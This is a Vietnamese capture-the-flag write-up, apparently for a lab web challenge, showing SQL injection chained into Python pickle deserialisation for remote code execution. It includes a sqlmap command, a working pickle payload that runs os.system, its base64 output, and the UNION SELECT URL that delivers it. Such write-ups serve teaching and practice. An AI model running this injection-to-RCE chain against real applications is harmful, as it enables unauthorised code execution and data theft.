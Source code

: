 ![image](https://github.com/user-attachments/assets/32603254-927c-4b88-a68a-7a9734e36d9f)

Đây là giao diện của trang web:

![image](https://github.com/user-attachments/assets/d2b839de-3ac1-4cac-9c4f-477e42c9e699)

Khi ấn view thì sẽ chạy câu truy vấn đến database để tìm:

![image](https://github.com/user-attachments/assets/9972f098-2cd8-4d47-8033-b72a158006eb)

Và câu truy vấn này không hề dùng dấu ? nên có thể sqli:

![image](https://github.com/user-attachments/assets/4d2261f2-b0b7-45a3-bc32-509fb06c5282)

Tôi dùng `sqlmap -u "http://94.237.54.190:45308/view/2" --batch --level=5 --risk=3 --dump --dbms=SQLite --threads=10` thì ra được boolean-based blind:

![image](https://github.com/user-attachments/assets/0c0cc0b0-4eae-4499-a337-e56117cd933d)

Kết quả in ra nhìn khá lạ

![image](https://github.com/user-attachments/assets/1b603020-94e1-441d-9aff-f94eb4b51f43)

Đọc src code thì bị filter bởi pickle:

![image](https://github.com/user-attachments/assets/f235c71a-c55e-412f-905f-49235125f214)

Và cái pickle thì có thể [khai thác](https://davidhamann.de/2020/04/05/exploiting-python-pickle/) được:

![image](https://github.com/user-attachments/assets/84372e26-27b3-43c6-8817-b85a078962a2)

```
import pickle
import base64
import os

class RCE:
    def __reduce__(self):
        cmd = ('cp /app/flag.txt /app/application/static/flag.txt')
        return os.system, (cmd,)
if __name__ == '__main__':
    pickled = pickle.dumps(RCE())
    print(base64.urlsafe_b64encode(pickled))
```
Tôi copy cái flag ra static để có thể xem được, sau đó chạy code thì ra `gASVSQAAAAAAAACMAm50lIwGc3lzdGVtlJOUjDFjcCAvYXBwL2ZsYWcudHh0IC9hcHAvYXBwbGljYXRpb24vc3RhdGljL2ZsYWcudHh0lIWUUpQu`, tiếp dùng `http://94.237.54.190:45308/view/1'%20UNION%20SELECT%20'gASVTAAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjDFjcCAvYXBwL2ZsYWcudHh0IC9hcHAvYXBwbG%20ljYXRpb24vc3RhdGljL2ZsYWcudHh0lIWUUpQu';--`
 để chạy cmd này:

![image](https://github.com/user-attachments/assets/8361f760-012a-4361-ae0e-22a5731869d0)

Sau khi chạy xong thì vào static/flag.txt là ra:

![image](https://github.com/user-attachments/assets/5a716d12-7755-4341-b865-18ec1d3bf22e)








